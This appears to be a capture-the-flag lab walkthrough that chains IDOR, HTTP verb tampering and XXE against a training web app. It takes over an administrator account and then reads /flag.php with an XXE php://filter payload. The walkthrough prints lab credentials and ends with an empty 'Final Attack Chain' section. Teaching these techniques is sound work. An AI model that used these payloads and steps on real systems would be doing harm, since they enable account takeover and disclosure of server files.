We will combine three vulnerabilities covered in this module:

1. **HTTP Verb Tampering:** Changing the HTTP method to bypass security checks that are applied only to a specific method, such as **`POST`**.
2. **IDOR (Insecure Direct Object Reference):** Accessing another user's information by changing an object ID because the application fails to verify whether the current user is authorized to access that object.
3. **XXE (XML External Entity):** Exploiting unsafe external entity resolution in an XML parser to read files from the server.


**Step 1: Authenticate to the Application**

Log in using the provided credentials:

```text
Username: htb-student
Password: Academy_student!
```

After logging in, open Burp Suite and inspect the HTTP requests sent by the application.

**Step 2: Identify the IDOR Vulnerability**

Notice a request that retrieves user information using a user ID.

1. Capture the request in Burp Suite.
2. Identify the user ID parameter in the request.
3. Change its value to another ID.
4. Forward the modified request.

We will notice that the returned user information changes according to the supplied ID.

**Result:** This confirms an IDOR vulnerability because the application does not properly verify whether the current user is authorized to access the requested user's information.


**Step 3: Find an Administrator Account**

To escalate our privileges, we need to identify an account with higher privileges.

1. Send the user information request to Burp Intruder.
2. Configure the ID parameter as the payload position.
3. Set the payload range to the first 100 IDs.
4. Start the attack.
5. Use the `admin` keyword to identify administrator-related responses.


We will notice that **user ID 52** belongs to an administrator account.

**Result:** We have identified the administrator's user ID.

**Step 4: Exploit HTTP Verb Tampering to Change the Administrator's Password**

Navigate to the password change feature in the application settings.

We will notice that the password change process involves two requests.

**Request 1 – Retrieve the password reset token:**

```http
GET /api.php/token/<uid>
```

**Request 2 – Change the password:**

```http
POST /reset.php
```

**Exploit IDOR to Retrieve the Administrator's Token**

The token request contains a user ID, so we can test it for IDOR.

1. Capture the token request.
2. Change the user ID to `52`.
3. Forward the request.

The application successfully returns the administrator's password reset token.

**Result:** We have obtained the token associated with the administrator account.


**Try 1 - Change the Administrator's Password**

Now, modify the password reset request:

- Change the user ID to `52`.
- Replace the original token with the administrator's token.
- Submit the request.

We will receive:

```text
Access Denied
```

This indicates that the password reset operation also **depends on the current session cookie**, even though we have the correct administrator ID and token.


**Try 2 - Bypass the Cookie Dependency Using HTTP Verb Tampering**

We can now use the first vulnerability covered in this module: HTTP Verb Tampering.

1. Change the request method from `POST` to `GET`.
2. Remove the session cookie.
3. Keep the administrator's user ID and reset token.
4. Send the modified request.

This time, the operation succeeds.


**Result:** We successfully changed the administrator's password without using the session cookie.

This indicates that the **backend applies the authentication or authorization checks to the `POST` method** but does not properly enforce them for the **`GET`** method.

**Step 5: Log in as the Administrator**

Use the administrator account with the new password:

```text
Username: a.corrales
Password: 123456
```

After logging in, we will notice a new feature called:

```text
Add Event
```

This feature is available to the administrator and will be our entry point for testing XXE.

**Step 6: Identify the XXE Vulnerability**

Open the **Add Event** feature and inspect the request using Burp Suite.

We will notice that the application sends XML data through:

```http
POST /addEvent.php
```

The `name` value is reflected in the application's response.

First, test whether the XML parser processes custom entities.

Send the following payload:

```xml
<!DOCTYPE name [
    <!ENTITY hacker "bavthe0ne">
]>
<name>&hacker;</name>
```

The application responds with the entity value:

```text
bavthe0ne
```


**Result:** This confirms that the XML parser processes our custom entity, indicating a potential XXE vulnerability.

**Step 7: Read `/flag.php` Using XXE**

Now that we have confirmed the XML entity processing, we can attempt to read the target file using an external entity.

Send the following payload:

```xml
<!DOCTYPE name [
    <!ENTITY hacker SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
<name>&hacker;</name>
```


**Final Attack Chain**

<center>



</center>